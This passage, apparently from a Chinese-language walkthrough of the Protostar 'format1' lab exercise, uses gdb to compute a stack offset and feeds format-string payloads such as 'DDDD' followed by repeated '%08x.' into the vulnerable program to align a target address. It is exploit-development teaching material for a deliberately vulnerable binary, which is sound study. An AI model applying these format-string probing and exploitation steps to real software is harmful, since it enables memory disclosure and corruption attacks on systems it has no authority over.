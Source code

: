 栈顶（0xbffffcd0）存着指针*string（0xbffffee5），指向“DDDD%08x.”。

```shell
(gdb) x/1s 0xbffffee5
```

<img src=".\format1-analysis-9.png" style="zoom:67%;" />

计算栈顶到字符串的偏移值，约为133DWORD。

```shell
(gdb) shell python -c 'print 0xbffffee5-0xbffffcd0'
```

<img src=".\format1-analysis-10.png" style="zoom:67%;" />

改变输入进行调试，直到*somewhere恰好与要填入target地址的位置重合。

```shell
(gdb) r $(python -c 'print "DDDD" + "%08x."*150 + "[%08x]"') # 调试，直到[]里的值为44444444
```

<img src=".\format1-analysis-11.png" style="zoom:67%;" />

```shell
(gdb) r $(python -c 'print "DDDD" + "%08x."*132 + "[%08x]"') # 调试，直到[]里的值为44444444
```

<img src=".\format1-analysis-12.png" style="zoom:67%;" />
